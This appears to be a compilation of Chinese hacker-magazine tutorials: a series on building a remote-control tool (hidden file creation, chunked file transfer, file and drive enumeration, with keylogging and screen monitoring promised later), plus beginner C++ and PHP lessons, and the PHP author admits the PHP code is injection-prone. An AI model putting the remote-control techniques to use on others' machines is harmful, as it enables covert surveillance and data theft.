- `FILE_ATTRIBUTE_TEMPORARY`：此项不支持，仅在 MSDN 中有提及。

最后一个参数也被忽略了，没用的。还是给个示例：

```c
CreateFile(L"D:\\test.txt", GENERIC_READ|GENERIC_WRITE, FILE_SHARE_READ, NULL, CREATE_NEW, FILE_ATTRIBUTE_HIDDEN, 0);
```

执行以上代码会在 D 盘建立一个名为 test.txt 的隐藏文件。除此之外，还有很多很多方法可以创建文件，我这里最后介绍一种。感兴趣的可以多查找一些资料。我介绍的最后一种方法就是 OpenFile 函数，我们可以看看原型：

```c
HFILE WINAPI OpenFile(
  _In_  LPCSTR lpFileName,
  _Out_ LPOFSTRUCT lpReOpenBuff,
  _In_  UINT uStyle
);
```

这个函数看起来很清爽，但是难度依然很大。第一个参数大家也看到是输入参数，第二个是读取文件的缓冲区，这两个都不难，只是最后一个参数取值繁多：

- `OF_CANCEL`：这个已经停用了。
- `OF_CREATE`：创建一个新文件，如果文件存在，文件将被清空。
- `OF_DELETE`：删除一个文件，OpenFile 竟然也是删除文件的一种方式。
- `OF_EXIST`：打开一个文件然后关闭它，用来测试一个文件是否存在。
- `OF_PARSE`：填充 OFSTRUCT 结构，不做其他任何事情（翻译自 MSDN）。
- `OF_PROMPT`：MSDN 说如果文件不存在，就会弹出一个对话框询问用户是重试还是取消，不过本人实测没成功。
- `OF_READ`：以只读模式打开一个文件。
- `OF_READWRITE`：以读写模式打开一个文件。
- `OF_REOPEN`：通过第二个参数中的信息来打开一个文件。
- `OF_SHARE_COMPAT`：以共享模式打开文件，其实就等于 CreateFile 中第三个参数同时取 `GENERIC_READ` 和 `GENERIC_WRITE` 两个值。
- `OF_SHARE_DENY_NONE`：与上面一个功能好像差不多。
- `OF_SHARE_DENY_READ`：拒绝其他程序读取该文件。
- `OF_SHARE_DENY_WRITE`：拒绝其他程序写入该文件。
- `OF_SHARE_EXCLUSIVE`：拒绝其他任何程序读取/写入该文件。
- `OF_VERIFY`：确认日期和时间和上次打开的日期和时间一样，可用于只读文件的额外检测。
- `OF_WRITE`：以只写模式打开该文件。

怎么样？够狠吧？那么多参数，够你们喝一壶。增加文件，我们就说到这里。

那么还有一个就是删除文件，删除文件上面已经有了一种方法了吧？删除文件要简单很多了：

```c
BOOL WINAPI DeleteFile(
  _In_ LPCTSTR lpFileName
);
```

这个不用说了吧？文件路径，很简单吧？

上面完全是对 Windows API 的介绍。那么现在我们来看思路。删除文件的思路最简单，就是直接传送一个数据包，然后附上路径即可。但是创建就有艺术了。我们知道，在远控中：

- 要可以直接通过服务端在远程创建空白文件；
- 要可以传送本地文件到服务端。

第一个倒是好说，但是创建好了总要编辑吧？这就是难点了。很多人在使用远控的时候，都是直接传送本地文件的。这个就是大家可能会遇到困惑的地方了。

不过说困惑也困惑，不困惑也不困惑。既然我们都要用 SOCKET 来传送数据，我们何不这样想：如果是小文件，我们直接读到内存中，然后放进数据包发送就是了。问题就在于大文件的传输。不过思路比较好的 X 子应该想到了。没错，大的不行，那就切成小的呗。我们可以指定一个特定的指令 ID，就用来处理大数据量的问题。不过为了标示顺序，我们最好给数据包编上号，给出特定的数据缓冲区，然后读取一段文件内容放到缓冲区、发送；然后接着读。服务端接收到之后，再在指定位置创建一个新文件，然后将数据包内容写入到文件。这也就是大文件最简单的传输思路了。要想一口气发完，你有那么大内存？真晕……

好了，今天我们大致就讲解了文件的增加和删除，这是最简单的两个功能了。剩下两个就是修改和查询。修改的话，涉及修改文件内容和修改文件路径；查询又分为查询文件基本信息、内容和遍历文件/文件夹列表。这两个功能我打算花两章时间来讲解，不过说不准，难说我又突然改变主意（小编：其实就是想偷懒！）一章写完也说不定。

总体来说，我觉得“小小的实现一个远控”系列经过那么长时间的铺垫，我还是希望直接推入高潮（小编：咳咳，这话说的，有点 H）。不过编程总是一个循序渐进的过程，希望大家能够理解。反正未来的键盘记录、屏幕监控等功能是绝对不会亏了大家的就是了。

顺带跟大家说下，影月也正式加入上班族的行列了，所以以后白天的时候很有可能在上班，X 子们尽量在晚上找我，公司是很少需要加班的。好啦，不多说了，截止写稿结束，已经 11 点了，睡觉了睡觉了，大家拜拜～

# 走进 C++（4）

大家好，今天我们继续学习 C++。上一篇我们学习了系列的运算符，那么本章我们就开始学习和计算机的交互。既然交互，就肯定包含输入、输出。输出语句之前大家已经大致了解过：printf。至于又有人跟我说 C++ 输入输出用 cin 和 cout，我表示此问题不解释，参见月下孤笔 2011 年 7 月发表的《走进 C++（1）》。

这个函数是头文件 stdio.h 中定义的函数，函数原型在 MSDN 中是：

```c
int printf(const char* format [, argument]...);
```

之前我们用的 `printf("hello world");` 这种用法，其实是最简单的用法。这个函数其实可以在字符串中嵌入数据然后输出。具体怎么嵌入，就是根据后面的参数了。

比如说，我们现在定义了一个变量 num 并赋值为 1，现在我们想将 num 的值嵌入“这个数字是()”字符串的括号中输出。这个如何实现呢？很简单，直接把 num 作为后面的参数传入，那么就成了 `printf("这个数字是()", num);`。但是这样并不算完，这样写的话，编译器如何知道我们要将这个值插入到哪里呢？这就是我们接下来要说的话题：占位符。

我们要给一个符号给编译器，告诉它这个位置是给变量预留的。比如说，这里 num 是个整数，那么我们就在要嵌入变量的位置写个 `%d`。注意这里整数的占位符是 `%d`，如果是浮点数，占位符是 `%f`；字符串的占位符 `%s`；字符的占位符 `%c`。

简单演示一下写法：`printf("这个数字是(%d)", num);`。好了，占位符的问题其实还有很多可研究的，比如说根据占位符输出变量格式，很多东西都可以用占位符来设定。这些就由大家自己去研究了，我这里不做太多讲解。

```c
printf("这个数字是(%d)", num);
printf("这个点的坐标是:(%f,%f)", x, y);
```

这就是基本用法啦，三个四个或者更多都可以这么写。在匹配时，第一个占位符无论如何都会匹配第一个传入的变量，后面一个个都是依次匹配，所以顺序坚决不能错。

那么下面我贴出一段代码，大家不妨猜猜运行结果是多少？

```c
char cr='a';
printf("%d", cr);
```

大家可能觉得奇怪，为何 char 类型的变量会用 `%d` 来做占位符呢？这依然要涉及以前说过的知识。我们说计算机只认识二进制数，而我们的文字都是通过编码方式转换成相应数字。这里默认的是 ASCII 编码，而在 ASCII 编码中，字符 a 的编码值是 97。printf 将字符 a 以数字形式输出，就会直接输出 a 的编码值，也就是 97。执行结果如图1。

图1

好了，输出的问题基本搞定。那么接下来就是输入。输入的话，和 printf 相对应的是 scanf。这个函数的用法和 printf 相类似，只是一般输入的话，我们只需要直接获取数据即可。所以 scanf 的写法往往更简单，一般都是：

```c
int a = 0;
scanf("%d", &a);
```

这样就可以把输入的数字传入 a 变量中。大家注意，在 scanf 中，写法看似一样，但是实际上不知道大家发现没有，传参时 a 的前面是有个 `&` 符号的。这个是什么意思我们先暂时不说，大家学到后面自然会想通。大家现在只要当作这是个乌龟……的屁股——龟腚。

好了，对于这两个函数，我只是草草讲了一下，大家去看看C语言的教程就会发现得更加清晰。这两个函数是C语言时代就存在的，所以用法各方面在C语言的相关教程中讲得比较多。而C++的很多教程注重的是类和对象。好了，废话不多说，我们和电脑的基本交互是学会了。

接下来就是判断和分支，这两种结构决定着你在程序中进行不同的操作将会带来不同的运行结果。大家也看到现在的程序多彩多样，游戏无疑是使用判断最多的例子。我们在游戏中要根据各种不同的状况进行不同的处理。比如说，我们按前进，那么我们的角色应该不能后退才是，那么在按键的时候，肯定就有一个判断：前进对应的按键被按下，那么游戏角色前进；后退对应按键按下，游戏角色后退。这个就是最常见的一个判断。

那么判断几乎在所有语言中都存在，写法也各不相同。我们在C++中应该如何写判断呢？语法如下：

```cpp
if(布尔表达式)
{
    当表达式为真时要执行的代码
}
```

那么，上面就是if语句的基本语法。当然了，如果表达式为真后只需要执行一条代码的话，可以省略大括号。这里虽然说是布尔表达式，但是其实任何的数据放在这里都可以。为什么？因为C++是比较底层的语言，它对真或者假的判断并不像其他语言那么严格。它的判断很简单，就是只要为0则为假，非0则为真。所以，如果在if后面的表达式中写任意一个非0的数据，都会被视为真。

这就是C++的判断。那么if语句也有很多种写法，如果有一种情况：当表达式为真时，执行某些代码；表达式为假时，执行另一些代码。那么我们可以用else来指明当表达式为假时执行的代码。大致写法如下：

```cpp
if(布尔表达式)
{
    当表达式为真时要执行的代码
}
else
{
    当表达式为假时要执行的代码
}
```

怎么样，很简单吧？

那么，假设我们又有另外一种情况：一个变量num，当变量num小于100时，执行代码段1；当变量num大于等于100且小于等于200时，执行代码段2；当变量大于200时，执行代码段3。这种情况我们又有一种可以采取的新写法：

```cpp
if(布尔表达式)
{
    代码段1
}
else if(布尔表达式)
{
    代码段2
}
else
{
    代码段3
}
```

那么上面这种情况呢，可以有多个else if。这就是C++中的判断语句。程序大部分时候都是由大量的if语句判断而构成的。所以不得不说，判断看起来简单，但是实际上倒腾来倒腾去，很多时候写程序都在倒腾判断语句。可能一个判断写错，那么整个程序的执行都会变得不可预料。正因为如此，判断才被视为基本功中的基本功，坚决不容小视。

那么C++中让程序出现分支的可不止判断，还有一种叫做switch的分支语句，语法如下：

```cpp
switch(变量)
{
    case 常量可能等于的常量1:
        当变量等于常量1时执行的代码
    case 常量可能等于的常量2:
        当变量等于常量2时执行的代码
    default:
        当变量一个常量都不等于的时候执行的代码
}
```

这里我先说下规则，变量传入之后进入switch块并匹配case后面的常量。当常量值等于变量值，则执行case块中的代码。如果没有匹配的常量，则执行default块中的代码。这就是switch块的执行过程。

不过大家注意我之前的一句解释：当常量值等于变量值，则执行case块中的代码。注意这里我并没有特别说明“只执行该case块中的代码”。什么意思？就是说，假设变量的值等于常量1，那么常量1这个case块以及后续的case块中代码都会执行。这里我随便写个例子吧，不然说得不是很清楚：

```cpp
switch(num)
{
    case 1: printf("%d", num);
    case 2: printf("%d", num);
    default: printf("default");
}
```

假设num的值为1，请问程序会输出什么？没错，程序会输出“11default”。通过这个大家心里应该有个猜测了。我这里告诉大家，你的猜测是对的：匹配到1之后，在1这个case后面的所有代码都会被执行。那么这样的话，使用switch反而让程序更麻烦了。

还有什么好用的？这个问题确实比较头疼，所以大部分情况下，我们的case块中执行的代码最后一句总是`break;`，用于强行跳出switch块，不再执行后面的case块代码。这个问题已经很多年了，不过看这架势，并没有修正的趋势，所以大家需要根据自己的需要来决定是否添加break。

好了，那么大家现在学会了基本的输入输出和分支判断，基本上来说可以写简单的程序了。对于程序员来说，这些代码就是吃饭的家伙了。程序员几乎每天都在和分支判断打交道。那么除此之外，我们现在还要学习编写函数。

那么什么是函数？我相信大部分人都学过数学，那么函数应该也学过。程序中的函数和数学中的函数是差不多的……通过在程序代码中引入函数名称和所需的参数，可在该程序中执行（或称调用）该函数。

总体来说，函数是在程序中独立的一个代码块，在其他代码的作用下，可以让这段代码块开始运行，执行指定的操作。我这里只能说让大家尽量理解，要完全理解肯定是不现实的。我这里大致说一下函数的基本语法：

```c
函数返回值类型 函数名(参数列表)
{
    函数体
}
```

现在大家可以看下我新建的项目中，是不是看到：

```c
int _tmain(int argc, _TCHAR* argv[])
{
}
```

这个代码大家应该不算陌生吧？我们的主函数不就是这个么？为何称之为主函数，就是因为它的写法和函数一样，只是一个比较特殊的函数……根据函数的定义，我们可以获得这么多信息。

当然，主函数我们是不能去调用的，我们的代码都要写在主函数中。我们现在来尝试做个add函数来执行加法。

首先：我们确定我们要做个简单的加法函数。这个函数的功能很简单，传入两个加数，然后返回和即可。这里加法就只算整数啦……那么大致就可以知道函数的定义怎么写：

```c
int add(int num1,int num2)
{
}
```

这就是函数的定义。那么函数体呢？函数体也很简单，说白了就是一行代码……就是`num1+num2`。但是在执行之后，我们要将它返回，就要用到一个关键字`return`，所以我们的函数就写成：

```c
int add(int num1,int num2)
{
    return num1+num2;
}
```

那么整体代码我贴一下：

```c
int add(int num1,int num2){
    return num1+num2;
}

int _tmain(int argc, _TCHAR* argv[])
{
    int result=add(1,2);
    printf("%d",result);
    getchar();
}
```

好了，执行结果大家应该知道了。本章主要就写了这么几个大体需要会的东西，那么下一章我们开始更进一步地学习……好了，别的没什么了，文子们，加油哦~~

## 走进C++（5）

大家好，时光如水，一个月又过去啦。在上一章中，我们学习了计算机的输入和输出，而本章，我们要学习的就是循环……循环作为节省代码的一个利器，也是我们程序员整天倒腾的东西之一。

- 1. for
- 2. while
- 3. do...while

```c
for(表达式1; 表达式2; 表达式3)
{
    循环体
}
```

那么根据这个呢，我们就可以很容易地看出语法……现在我们来说下for循环的执行步骤吧：

- 1) 执行表达式1
- 2) 判断表达式2是否为真，如果为假，跳出循环
- 3) 如果表达式2为真，执行循环体
- 4) 执行表达式3
- 5) 返回2)

那么也就看出，for循环表达式1永远只会执行一次，而表达式2和表达式3会执行许多次……所以这里肯定要写一个可变化的式子。

```c
printf("黑客X档案:%d\n", i);
```

```c
for(int i=1; i<=1000; i++)
{
    printf("黑客X档案:%d\n", i);
}
```

相信这个例子之后，我们对for循环都有了一定理解……好了，除了for循环，还有两种循环，先说while循环吧。

意思是“当……的时候”。那么大家大概可以猜到格式了吧：

```c
while(表达式)
{
    循环体;
}
```

图1

没错，while循环是要简单得多。首先判断表达式是否为真，表达式为真则执行循环体，表达式为假就跳出循环。这种循环简单是简单了，但是也明显有问题……我还写一下完整代码吧：

```c
int i=1;
while(i<=1000)
{
    printf("黑客X档案:%d\n",i);
    i++;
}
```

运行结果和图1是一样的。那么大家发现了吗？for循环用了2行代码搞定的事，while循环整整用了4行代码……循环有那么多种，总有一款适合你！！

好了，还剩下最后一个循环，就是do...while循环了。那么和while循环的写法上有什么区别呢？大家看语法哈：

```c
do{
    循环体;
}while(表达式)
```

还是老样子，说说执行顺序。不过想来大家也猜出一点点名堂了：循环体写在前，而条件写在后，所以执行顺序就是先执行循环体，然后执行表达式判断。如果表达式为真，再执行循环体，直到表达式为假，结束循环。也就是说，不管表达式是什么，循环体都至少会执行一次。好了，同样的，我们还是依然用do...while循环来完成一下刚刚的题目：

```c
int i=1;
do{
    printf("黑客X档案:%d\n",i);
    i++;
}while(i<=1000);
```

好了，三种循环都说完了，大家应该也大致了解了循环的执行过程。那么现在，大家学会了循环、学会了输入输出、学会了判断……这里我就不每个循环都单独做一次了，毕竟循环体内容都是一样的。我这里就用for循环来演示吧：

```c
for(int i=1;i<=1000;i++)
{
    printf("黑客X档案:%d",i);
    if(i%100==0)
    {
        printf("\t哈哈，第%d次啦！\n",i);
    }
    else
    {
        printf("\n");
    }
}
```

执行结果如图2。大家看到，这中间判断是完全包含在循环体内的，大家注意其中大括号附近的数字序号①~⑥……

- ⑥是属于循环语句的。循环语句是完全包含判断的。相信这样来表达，大家应该清楚很多的。

好了，大家是不是觉得差不多了，循环讲完了，影片也该停止啰嗦了。嘿嘿，但是我还要给大家蛋疼下：现在，我只想输出100次，不想输出一千次了。但是，我的问题不那么简单。我要在不修改表达式的情况下，让循环只输出一百次。大家肯定想：那我加个判断，到一百次就让循环停下来呗。关键就在于，怎么停？

想必大家如果真的下去认真学习了C++，用VS2008认真写过代码，大家应该猜到了，应该想到哪里呢？上一章的switch语句。记得么？在每个case块后面，我们都说了要加上一个break；在VS2008里面，凡是关键字都会变成蓝色。那么大家也就会发现，break就是一个关键字。说白了，大家想想，一个语言中，关键字都是很少的，如果break就单单给switch来服务，那关键字不是浪费了么？

break关键字不光用于switch，其实更准确地来说，break用于终止一个语句块的运行。注意，break不能终止函数和判断。那么，现在我们知道，break可以用于switch和循环两种情况，也许还有其他的，不过我现在暂时想不到了。好了，那么本月的内容就到这里啦。

## php实战教程（10）——SQL篇

大家好，又到了我们的PHP time了。上一章我们学习了三层结构的整体思路，本章呢，我们依然还是要讲讲我们的三层结构的开发。经过考虑，我觉得还是所有功能都做一下吧，本来是不想做注册的。好，现在打开Zend Studio。同样的，我们注册同样要一个页面，我们现在简单地做一个提交页面reg.php。

不知道大家发现没有，我们每实现一个功能就要两个php页面：第一个页面用来显示，另外一个页面处理逻辑，比如判断用户名是否正确。所以根据习惯，我们都喜欢在根目录下面添加一个目录action，将我们的逻辑处理页面全部放到里面，统一管理……

和UserService的实现，这些相信对大家都没多大挑战。不过有一个地方我要说一下，就是sql语句。我们知道，在我们的数据库表中主键设置了自动增长的。但是如果大家直接写：

`insert into TB_USER values('username','password','nickname')`

就必然无法插入数据。这个是mysql做得不是很完善的地方。在mssql下面的话，这条语句完全没有问题，但是mysql下面就必须这样写：

```sql
insert into TB_USER(user_name,user_pwd,nick_name)
values('username','password','nickname')
```

否则大家就会看到一个错误，说列数和值数不匹配。够纠结吧？这样写了之后，我们就可以成功地将注册信息写入数据库了……好了，自此，我们的注册和登录就做完了。那么注册登录作为我们网站开发一个最基本也是最经典的功能，可见其重要性。接下来就是发帖了，发帖和回帖的话，基本也是差不多的内容。

本来作为论坛，我们应该有一个板块划分的，不过我这里不打算做了，仅仅是个示例。好了，既然说到发帖，我们首先要做的，自然是帖子列表，帖子列表有了才好发帖嘛。好吧，我们就来写写帖子的功能。首先，既然涉及到我们第一个类了，自然少不了写接口和类等等。是不是这又开始蛋疼了？不过，现在多蛋疼，以后少蛋疼，长疼不如短疼嘛。弄完了这些蛋疼的事情以后，我们又要开始写我们的Dao实现了。既然是显示帖子列表，那么我们就要获取所有帖子，我这里写了个方法就叫`GetTopicList`。实现也很简单，就是一个查询语句嘛。

不过这里要说一下的是我们这次返回的数据是多条，这里我是采取了返回一个数组。关于数组的使用我简单地说一下。array的创建很简单，直接`$数组名=array();`就可以直接创建一个空数组。当然，如果要初始化也可以，直接在array后面的括号里写值即可。如果在创建数组之后，我们还要继续往里面添加数据呢？注意，这里我们使用一个函数叫做`array_push`，这个函数有两个参数，第一个就是要存放的数组，第二个是要存放的数据。大家注意，我这里说的是函数，不是方法。好了，相信说到这里，我们也基本能做出来了，从数据库把数据取出来存放到数组的话，应该不用我说了吧？

现在主要的问题就是一个显示的问题了。我们知道，既然是帖子列表，那么我们肯定要能够点了帖子名然后查看帖子内容呀。这里就存在一个传入参数的问题了。我们是动态网站，数据都是一个页面通过数据库取出来显示的，不是像静态网站那样直接链接到相应的页面，所以这里我们肯定要在这个页面上通过一个参数传递一个值到帖子查看页面，告诉那个页面用户究竟点了哪张帖子。那么，帖子的标识很简单，自然是用帖子ID最为实惠。

如果按照常理，我们既然显示帖子内容，我们肯定有个页面叫topic.php。然后呢输出的时候肯定会这样写：

```php
echo "<a href='topic.php'>".$topic->getTitle()."</a>";
```

但是这样写明显不能让目标页面知道我们究竟点了哪一个页面。所以呢，我们还需要通过get方式来传递帖子ID。我们都知道，get方式提交的话，参数是直接写在地址栏的。所以我们就可以将输出语句写成：

```php
echo "<a href='topic.php?topicID=".$topic->getId()."'>".$topic->getTitle()."</a>";
```

好，那么帖子列表做得没问题了，虽然难看归难看了点……不过美化嘛，暂时没必要。这个到时候大家去自学一下js，Ext JS就可以把页面做得非常漂亮。至于帖子方面，我可能不会做太多的美化，毕竟如果到时候再重点教美化的话，可能就违背了这个连载的初衷了。OK，帖子列表页显示问题初步搞定，到时候再做个发帖的功能就基本差不多了，后期还会讲一下分页的问题。

我们现在就来做一下帖子显示页面吧。既然是单张帖子，而且是根据帖子ID来查询帖子，我相信对大家来说一点问题都没有啦，以前的代码讲过的。好，依然是把Dao和Service写一下，然后开始写页面。这里没得说，我们首先肯定要做的一件事情就是取出帖子ID。注意我们之前是通过Get方式来传递值的，所以在topic.php中，我们就要用`$_GET["topicID"]`来取值。很快，我们的帖子显示页面也搞定了。就剩下一个回帖的部分了，不过我们暂时不弄回帖。

不知道大家有没有发现，其实我们现在的页面都是单个单个的，需要有连续的跳转串联起来：在login之后，我们要跳转到帖子列表呀；注册之后自动跳转到登录页。要跳转页面的话，有两种方式。那么大家在论坛可能经常遇到一种情况，就是注册或者登录以后，页面提示：登录成功，欢迎您：XXX，现在将跳往登录前页面，如果没有自动跳转，请点击。这个模式是现在非常多的。具体返回登录前页面这个肯定是要先在session或者cookie中记录用户之前访问的页面，然后跳转。跳转的话，可以通过javascript来实现，写法如下：

```html
<script type="text/javascript">
window.location='页面位置';
</script>
```

不过上面这种方法就是直接跳转了，不会有等待时间，当然也可以用javascript来实现等待，这里我就不细说了。另外一种方法呢，就是用html来实现传统的跳转，可以在head标签中添加一个meta标签，格式如下：

```html
<meta http-equiv="refresh" content="要停留的秒数;url=网址">
```

这个meta标签最容易写错，大家注意这里停留的秒数后面写的是分号。很多人以为这里content和url都是meta标签的属性，写好之后就没反应。不过我们之前的页面都没有按照正规html格式来输出，本来这里的话，我觉得这样实现还是不错的。

还有一种方法就比较蛋疼，这个就是用php代码来实现的了，我贴一下代码吧：

```php
<?php
header("refresh:5;url=http://www.xxxxx.com");
?>
```

那么，跳转方面大致就这样完成了，估计大家还是更倾向于最后一种写法吧，我自己也是比较喜欢最后一种。给大家的源代码的话，我就不做跳转了，感兴趣的X子可以自己做下吧，反正方法我教给大家就是了。现在教给大家的是最老式的网站开发方式了，像我这种写法其实安全性很不高，经常容易被注入。不过大家现在初学嘛，还不用去开发商业系统。从技术学习的角度来说，这是最适合的。

和大家聊了，具体要开发商业系统，这样写还是很蛋疼的，稍微改动一点，牵涉的面依然非常大。我们后面还会教大家使用框架、使用模板，这样大家以后开发起来就会轻松得多，这里我就先不多说了。本周因为影月特别特别忙，每天都忙到凌晨两点多，真的非常非常累。所以本章内容稍微少一点点，希望大家能予以谅解。

影月也很想多写一点点，但是始终还是忙得要命。工作上面压力也非常大，特别是写稿的这几天，正是事情云集的几天。

总之，影月总会陪着大家，一步一步带着大家往前走，也希望大家能一如既往地支持影月、支持月下狐笔。谢谢大家，本章的内容就到这里了。睡觉啦，拜拜~~

# 小小的变化——远程（10）
## 注册表的管理

影月

大家好，终于又到了远控的开发时间了。远控永远是我每月最后一篇写的稿子。因为本月琐事比较多，距离预定交稿时间已经整整过去了5天了，在这里对编辑部各位小编表示深切的歉意。给你们工作上带来的不便，希望你们能谅解。

上一章中，我们学习了对文件的增、删、改，最麻烦的“查”我们本章开始讲。那么从一个文件里包含的众多信息来看，不得不说查询似乎一直是挺麻烦的东西。文件查询又分为两种：一种是查询文件名称；另一种是查询文件内容。同时我们可能还需要查询文件的一些基本信息，比如大小、创建日期等等，这些东西都是可能需要查询的。

那么我们现在遍历文件的手段主要是两种：一种是通过传统 API 来实现，另外一种是通过 MFC 提供的类来实现。我们的服务端是传统的 Win32 应用程序，所以这里自然只能用传统的 API 来进行遍历。首先我们并不能知道目标位置有多少文件。那么我们肯定希望最好有函数能一下全部获取到所有文件信息，不过很明显那并不现实。这里需要用到两个 API：首先获取目录下的第一个文件，然后通过第一个文件的句柄获取下一个文件信息。老样子，还是看看 MSDN 上的函数原型：

```cpp
HANDLE WINAPI FindFirstFile(
  __in   LPCTSTR lpFileName,
  __out  LPWIN32_FIND_DATA lpFindFileData
);
```

- `lpFileName`：大家看到前面已经有了 `__in` 的传入标志，这个参数是必须的。但是可能大家都有疑问，我们就是因为不知道目录下有什么文件才遍历，如果我们知道的话，问题不都简单了吗。这个其实也不需要我们知道，因为这个函数支持通配符，这样就强悍多了，我们完全可以通过一个 `*` 号来通配目标下的所有文件。
- `lpFindFileData`：这个大家看到是个 `WIN32_FIND_DATA` 结构的指针，这个结构存储了文件的基本信息，稍后我们会对这个结构体做一定介绍。

这个函数返回一个句柄，这个句柄就是我们用来查找下一个文件的关键啦。既然是在找下一个，大家应该很明白肯定要想到 Next，没错，我们的下一个函数就是 `FindNextFile`。函数原型如下：

```cpp
BOOL WINAPI FindNextFile(
  __in   HANDLE hFindFile,
  __out  LPWIN32_FIND_DATA lpFindFileData
);
```

这个函数和 `FindFirstFile` 很相似吧？除了第一个参数不同之外，都是一样的。说到这里，我们知道 `FindFirstFile` 返回的 Handle 有什么用了吧？这可是遍历文件所必备的良药啊。因为以前的代码太多，我们这个功能还是相对独立的，我就不再在以前的 Server 端中写代码了，这里都用一个控制台来做测试吧。

那现在就让我们来写个代码遍历 C 盘一下所有文件呗……这个地方大家注意一点，`FindFirstFile` 返回的是 `HANDLE`，当目标文件夹下为空时，返回 `INVALID_HANDLE_VALUE`。而 `FindNextFile` 返回值是 `BOOL`，执行成功返回 `TRUE`，错误就返回 `FALSE`。一般返回 `FALSE`，就是文件已经遍历完了，但是返回 `FALSE` 的话，其实仅仅代表这个函数执行失败，并不能表示已经遍历完了。不过文件读写这块出错的概率比较小，如果大家不放心，可以用 `GetLastError` 来进一步判断。如果 `GetLastError` 返回 `ERROR_NO_MORE_FILES`，那么就可以绝对确定是遍历完了。我写的话，就做了个简单判断了，贴下代码：


首先声明一个 `WIN32_FIND_DATA` 结构，用于存放文件信息。然后循环遍历就 OK 了。这里要说明一下，文中使用的是 Unicode 编码，输出时应使用 `%ws`；如果使用 `%s`，会按 ANSI 方式解析，导致只输出到值为 0 的字节为止。


图1

如果是用 `%s` 来输出的话，就只会输出文件夹第一个字母，如图2所示：


图2

好吧，我的配图又偏离重点了。其实输出和格式化时我经常遇到这种问题，尤其是前不久使用 Oracle 库只支持 ANSI 编码，而项目使用 Unicode 编码时，格式语句经常出错，所以在这里提醒一下大家。

那么，我们现在再来看下 `WIN32_FIND_DATA` 结构的成员吧：

```c
typedef struct _WIN32_FIND_DATA {
    DWORD    dwFileAttributes;
    FILETIME ftCreationTime;
    FILETIME ftLastAccessTime;
    FILETIME ftLastWriteTime;
    DWORD    nFileSizeHigh;
    DWORD    nFileSizeLow;
    DWORD    dwReserved0;
    DWORD    dwReserved1;
    TCHAR    cFileName[MAX_PATH];
    TCHAR    cAlternateFileName[14];
} WIN32_FIND_DATA, *PWIN32_FIND_DATA;
```

`dwFileAttributes`：这是文件的属性，可能会有以下几种取值：

- `FILE_ATTRIBUTE_ARCHIVE`：表示该文件或目录具有存档属性，用于标记文件是否备份。
- `FILE_ATTRIBUTE_COMPRESSED`：表示文件或目录已经压缩。
- `FILE_ATTRIBUTE_DEVICE`：预留属性，未使用。
- `FILE_ATTRIBUTE_DIRECTORY`：表示目标是一个目录。
- `FILE_ATTRIBUTE_ENCRYPTED`：表示文件或目录已经加密。
- `FILE_ATTRIBUTE_HIDDEN`：表示该文件是隐藏文件。
- `FILE_ATTRIBUTE_NORMAL`：表示该文件没有其他属性（通常需单独使用）。
- `FILE_ATTRIBUTE_NOT_CONTENT_INDEXED`：表示该文件不被内容索引服务索引。
- `FILE_ATTRIBUTE_OFFLINE`：表示文件数据不直接可用。
- `FILE_ATTRIBUTE_READONLY`：表示文件是只读的。
- `FILE_ATTRIBUTE_SPARSE_FILE`：表示该文件是稀疏文件。
- `FILE_ATTRIBUTE_SYSTEM`：表示该文件是系统文件。
- `FILE_ATTRIBUTE_TEMPORARY`：表示该文件是临时文件。
- `FILE_ATTRIBUTE_VIRTUAL`：表示该文件是虚拟文件。

好啦，取值就是这么一些啦。我们接着看成员：

- `ftCreationTime`：这个是文件的创建时间。
- `ftLastAccessTime`：这个是最后访问时间（包括读取、修改、覆盖、属性修改等）。
- `ftLastWriteTime`：这个是最后修改时间。
- `nFileSizeHigh`：这个是文件大小的高位。
- `nFileSizeLow`：这个是文件大小的低位。
- `nReserved0`
- `nReserved1`：这两个都是预留的。
- `cFileName`：文件名。

`cAlternateFileName` 这个翻译过来叫二进一文件名，其实就是别名。说白了就是别名，这个一般快捷方式文件会有这个属性，大家可以测试一下。怎么样，是不是需要的东西全都有了呢？那么查询文件信息就搞定了。

除此之外，还有一个就是驱动器的获取。获取驱动器数量的话，可以用 `GetLogicalDrives` 来获取。这个函数返回的是一个 `DWORD` 类型变量，不过比较蛋疼的一件事情是，这个数值返回来的并不是直接的驱动器数量。返回的数值中一个二进制位标志着一个驱动器。比如说我这里有六个驱动器，返回值为 `0x000000fc`，二进制为 `11111100`，这个要获取比较麻烦，大家可以通过位运算来计算一下。

还有一个就是获取驱动器名，用 `GetLogicalDriveStrings` 获取，这个函数原型如下：

```cpp
DWORD WINAPI GetLogicalDriveStrings(
    __in   DWORD nBufferLength,
    __out  LPTSTR lpBuffer
);
```

这个函数比较蛋疼，虽然参数简单，一个缓冲区大小，一个是缓冲区，但是返回出来的值都异常蛋疼。为什么呢？大家不妨试试输出传入的缓冲区，就会发现只输出了一个 `C:\\`，其他的什么都没有。

那么我这里有 6 个驱动器，为何只会返回一个呢？其实这里缓冲区返回的是一个字符串数组，而且还是 `NULL` 结尾的字符串，所以这里就要涉及移动指针了。大家看下我的代码操作吧：

```cpp
wchar_t* driveList = new wchar_t[100];
GetLogicalDriveStrings(100, driveList);

wchar_t* temp = driveList;
int len = 0;

do {
    wchar_t* dr = new wchar_t[5];
    wcscpy(dr, temp);
    temp += wcslen(dr) + 1;
    len = wcslen(temp);
    printf("%ws\n", dr);
} while (len != 0);

getchar();
```

大家看，首先 `driveList` 是缓冲区，然后把指针复制给 `temp` 这个临时指针，以保存缓冲区起始地址。然后定义一个长度，当指针移动到空白的地方，那么获取到的长度肯定为 0，就说明数组已经结束，没有更多数据。循环体中先定义一个字符串来存放驱动器名称，然后将第一个驱动名称复制到 `dr` 中。再把临时指针移动到下一个数组元素地址，并计算下一个字符串长度；如果为 0 就说明结束，跳出循环。大家看下运行结果：


好了，那么驱动器和目录、文件的遍历都完成了。现在就是文件内容的读取了。其实读取文件内容的代码很简单，就是我们之前的 `fopen` 函数。这个函数调用之后返回一个句柄，然后调用 `fread` 函数即可读取到内容，函数原型如下：

```c
size_t fread(
    void *buffer,
    size_t size,
    size_t count,
    FILE *stream
);
```

参数很简单啦：

- `buffer`：缓冲区
- `size`：每个数据单元大小（字节）
- `count`：要读取的字节数/单元数
- `stream`：文件流（文件描述结构，由 `fopen` 获得）

好了，这个月对文件的操作就到这里吧，相信大家应该有了一个基本的了解了，下个月我们再来研究点新的东西吧。

# 连载 C++（6）

大家好，在我写稿的时候，看看日期，转眼又到了3月。……（本段为作者随笔与学习经历分享，讲述从18岁学习技术、迷茫与顿悟的过程，并鼓励读者坚持。）

